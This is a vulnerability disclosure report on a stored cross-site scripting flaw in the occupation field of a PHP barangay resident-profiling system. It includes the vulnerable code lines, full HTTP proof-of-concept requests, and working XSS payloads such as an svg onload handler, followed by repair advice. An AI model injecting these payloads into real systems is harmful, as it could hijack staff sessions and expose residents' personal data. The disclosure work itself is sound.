

# SourceCodester Barangay Resident Profiling and Information Management System 1.0 /manage_members.php occupation= Stored XSS

## Author

- (submitter name pending user confirmation — will be filled from vuldb.txt account at submission time)

## Vendor and Software Links

- https://www.sourcecodester.com/php/18747/barangay-resident-profiling-and-information-management-system-brpms-phpmysql.html
- https://www.sourcecodester.com/sites/default/files/download/oretnom23/brpms_sanfabian.zip

## Overview

- Barangay Resident Profiling and Information Management System (BRPMS, "Barangay San Fabian" build), version 1.0, stores the resident `occupation` field verbatim and renders it without HTML-encoding in the Comprehensive Resident Report, allowing stored Cross-Site Scripting (XSS). The payload executes in the browser of every staff member who opens `/reports.php`.

## Details

- Vulnerable file: `/manage_members.php` (injection) → `/reports.php` (raw render)
- Parameter: `occupation` (POST)
- Affected version: 1.0 (current public download, 2026-11)
- Injection — same add-member loop as the resident-name finding, no server-side validation of the occupation string (manage_members.php:67-80).
- Render — the report writer's column switch escapes several columns but skips the free-text sociological ones:

```php
// reports.php:395
case 'occupation': echo "<td>".$row['occupation']."</td>"; break;
// siblings sharing the omission:
// reports.php:392  case 'civil_status': echo "<td>".$row['civil_status']."</td>"; break;
// reports.php:393  case 'purok':      echo "<td>".$row['purok']."</td>"; break;
// reports.php:400  case 'fp_method':   echo "<td>".$row['fp_method']."</td>"; break;
// contrast reports.php:394/396 which use htmlspecialchars(...)
```

- `occupation` is `varchar(100)` — the payload stores cleanly under MySQL strict mode (`civil_status` at :392 has the same raw echo but its `varchar(20)` column cannot hold a usable payload, so occupation is the practical vector; `fp_method varchar(50)` is a second viable sink).

## Description

- A staff member submits a new resident whose occupation is markup instead of free text; the prepared INSERT stores it verbatim. When the Comprehensive Resident Report (`/reports.php`) is opened with the Occupation column enabled (it is checked by default), the value is concatenated into the table cell raw and the markup becomes live attacker script in the authenticated page context. Unlike the resident-name finding, there is no `strtoupper()` on this path — payloads execute exactly as stored. Script in this origin can silently exfiltrate the resident master list (names, birthdays, civil status, health-condition flags), mutate records, or ride the staff session.

## PoC

- Request — store the payload (admin session):

```
POST /manage_members.php?household_id=1 HTTP/1.1
Host: 127.0.0.1:8140
Cookie: PHPSESSID=<admin session>
Content-Type: application/x-www-form-urlencoded

add_member=1&first_name=Rpt&middle_name=M&last_name=Occ42&suffix=&relation_to_head=Member&birthday=2002-03-03&gender=Male&civil_status=Single&occupation=Tech%22%3E%3Cimg%20src%3Dx%20onerror%3DBRPMS-REPORT-42%3E&monthly_income=100.00&educational_attainment=College&type_of_dwelling=House&water_source=Nawasa&toilet_type=Flush&fp_method=None&youth_status=Adult
```

- Render request:

```
GET /reports.php HTTP/1.1
Host: 127.0.0.1:8140
Cookie: PHPSESSID=<admin session>
```

- Response (raw payload in the occupation cell):

```
HTTP/1.1 200 OK
Content-type: text/html; charset=UTF-8

...<td><strong>RPT42, POC </strong></td><td>26</td><td>Male</td><td>No</td><td>Single</td><td>HH-001</td><td>Purok 1</td><td>Other</td><td>Tech"></td>...
```

## Payload

```
Tech">
```

Executing variant used for the screenshot run (89 chars, plain `<td>` context so no quote breakout is needed):

```
<svg onload="document.body.insertAdjacentHTML('afterbegin','<h1 id=p6>OCC-XSS-42</h1>')">
```

## Screenshot: stored payload executing at the top of the report

Loading `/reports.php` ran the stored `svg onload` handler: the injected `<h1>OCC-XSS-42</h1>` was inserted as the **first element** of the document body (verified in the DOM) and renders above the Comprehensive Resident Report header — attacker-controlled JavaScript executing from a stored occupation value.



Full evidence log: `poc/F06-reports-raw-echo-stored-xss.txt` (complete request/response + screenshot-run addendum).

## Suggested repair

1. Escape at render: `htmlspecialchars($row['occupation'], ENT_QUOTES, 'UTF-8')` in `reports.php:395`, and fix the sibling raw echoes at :392 (`civil_status`), :393 (`purok`) and :400 (`fp_method`) in the same pass.
2. Validate at input: reject `<>` in free-text fields (`occupation`, `fp_method`) in `manage_members.php` and enforce the DB column lengths server-side.
3. Add server-side whitelists for the enumerated fields (civil status, fp_method) whose UI selects are currently decorative.
4. Add a `Content-Security-Policy` header as defense in depth.

## Dedup note

- NVD: the only entry for this product is CVE-2026-11515 (hard-coded password in `passsword_reset.php`) — different file, different vulnerability class (checked 2026-11-09).
- VulDB: no entry for `occupation`, `fp_method` or `reports.php` XSS (site searches returned none); only VDB-369135 (= CVE-2026-11515) covers this product. The code-projects.org entries CVE-2026-78142/78143/78144 cover other files/classes and do not overlap.
